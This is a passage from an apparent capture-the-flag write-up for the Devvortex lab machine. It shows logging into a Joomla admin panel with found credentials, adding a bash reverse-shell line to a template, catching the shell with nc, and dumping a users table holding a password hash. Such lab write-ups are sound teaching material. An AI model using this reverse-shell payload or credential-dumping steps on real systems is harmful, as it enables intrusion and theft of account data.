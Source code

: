 
Nice now we have the username and password to login to the login page found at the endpoint `http://dev.devvortex.htb/administrator`
Username: `lewis`
Password: `P4ntherg0t1n5r3c0n##`

After logging into the admin panel, under `System`. we can find an option to customize Administrator templates in browser. From here we can very simply get a reverse shell by selecting any of the templates and adding in the line:
`system('bash -c "bash -i >& /dev/tcp/LOCAL_IP/4444 0>&1"');`

After setting up a local listener, we can then get a shell as the `www-data` user.
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.242] 60262
bash: cannot set terminal process group (873): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ python3 --version        
python3 --version
Python 3.8.10
#Updgrading shell to full tty
www-data@devvortex:~/dev.devvortex.htb/administrator$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

From here, we can note the username and password we found earlier for the database.
```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##

#Show databases
SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+

#Use joomla db
USE joomla;

# Show all tables
SHOW TABLES;
# The output from this showed a lot of tables, however the most promising table containing potential sensitive information was:
| sd4fg_users |

# Viewing the data from the sd4fg_users table
SELECT * FROM sd4fg_users;
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-19 16:03:23 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
```